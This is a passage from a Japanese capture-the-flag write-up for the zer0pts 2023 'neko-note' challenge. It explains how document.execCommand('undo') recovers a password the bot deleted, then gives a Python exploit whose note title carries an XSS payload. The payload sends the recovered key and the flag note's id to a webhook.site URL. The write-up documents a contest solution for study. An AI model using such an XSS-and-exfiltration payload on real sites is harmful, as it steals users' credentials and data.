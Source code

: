 ```javascript
            // just in case there is a vuln like XSS, delete the password to prevent it from being stolen
            const len = (await page.$eval('input', el => el.value)).length;
            await page.focus('input');
            for (let i = 0; i < len; i++) {
                await page.keyboard.press('Backspace');
            }
        }

        // it's ready now. click "Show the note" button
        await page.click('button');

        // done!
        await wait(1000);

        await context.close();
    } catch (e) {
        console.error(e);
    }
```
`MASTER_KEY`を入力後に、XSSでその値を盗まれないように削除しています。この消した値を復元することはできないでしょうか？

調べてみると、どうやら`document.execCommand("undo")`で削除した操作を戻すことが可能みたいです。

というわけで上記のXSSと組み合わせて`MASTER_KEY`を盗めます。また、
```javascript
JSON.parse(localStorage.getItem("neko-note-history"))[0].id
```
からフラグが含まれるノートのidも盗むことで、フラグ奪取が可能になります。

### 攻撃

```python
import httpx

# BASE_URL = "http://localhost:8005"
BASE_URL = "http://neko-note.2023.zer0pts.com:8005"

HOOK_URL = "https://webhook.site/xxx"

client = httpx.Client()


def create_note(title: str, body: str) -> str:
    res = client.put(
        f"{BASE_URL}/api/note/new",
        data={
            "title": title,
            "body": body,
            "password": "x",
        },
    )
    assert res.json()["status"] == "ok"
    return res.json()["id"]


title1 = f"x autofocus onfocus=if(!window.w){{document.execCommand(`undo`);setTimeout(function(){{navigator.sendBeacon(`{HOOK_URL}`,document.querySelector(`input`).value+`/`+JSON.parse(localStorage.getItem(`neko-note-history`))[0].id)}},300)}}"
body1 = "x"
uuid1 = create_note(title1, body1)

title2 = "x"
body2 = f"[{uuid1}]"
uuid2 = create_note(title2, body2)
```

[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。